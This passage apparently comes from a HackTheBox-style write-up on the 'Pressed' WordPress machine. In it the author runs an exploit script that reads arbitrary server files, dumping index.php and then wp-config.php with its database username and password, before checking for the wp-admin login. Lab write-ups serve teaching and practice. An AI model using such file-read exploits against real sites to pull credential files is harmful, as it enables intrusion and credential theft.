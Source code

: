 There is a user htb. Now we can try and guess the page name and try and download the source code for the site:

```bash
python3 exploit.py http://pressed.htb /var/www/html/index.php

<?php
/**
 * Front to the WordPress application. This file doesn't do anything, but loads
 * wp-blog-header.php which does and tells WordPress to load the theme.
 *
 * @package WordPress
 */

/**
 * Tells WordPress to load the WordPress theme and output it.
 *
 * @var bool
 */
define( 'WP_USE_THEMES', true );

/** Loads the WordPress Environment and Template */
require __DIR__ . '/wp-blog-header.php';

```

Let’s see if there is a wp-config file:

```bash
python3 exploit.py http://pressed.htb /var/www/html/wp-config.php

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'admin' );

/** Database password */
define( 'DB_PASSWORD', 'uhc-jan-finals-2022' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

```

Let’s see if there’s a wp-admin page where we can login:

![image.png]({{ site.baseurl }}/assets/pressed/image%208.png)

![image.png]({{ site.baseurl }}/assets/pressed/image%209.png)
